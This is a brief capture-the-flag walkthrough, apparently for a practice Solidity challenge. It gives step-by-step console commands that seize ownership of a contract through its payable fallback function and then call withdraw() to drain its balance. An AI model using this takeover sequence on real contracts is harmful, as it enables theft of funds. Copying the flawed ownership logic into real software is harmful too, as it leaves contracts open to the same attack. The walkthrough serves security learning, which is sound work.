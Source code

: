 # How can I become the owner of this contract?

: contribute function limits the amount of ether I can send to the contract to less than 0.001 ether. Within the same function, unless I send the contract more than the current owner's contributions, I cannot become the new owner. 

: My next option is to use the fallback function. To pass the requirements, I took the steps below.

1. Use contribute function to add my contributions. 
`contract.contribute({value:1})`
2. Check `msg.sender`'s contributions
`(await contract.getContribution()).toNumber()`
3. Use a function, that is not defined yet payable in the contract. This will fire the contract's fallback function.
`contract.sendTransaction({value:1})`
4. Check the new owner. 
`await contract.owner()`
5. As the new owner, `msg.sender` can now withdraw all existing funds.
`contract.withdraw()`
6. Check if the contract's balance is 0.
`await getBalance(contract.address)`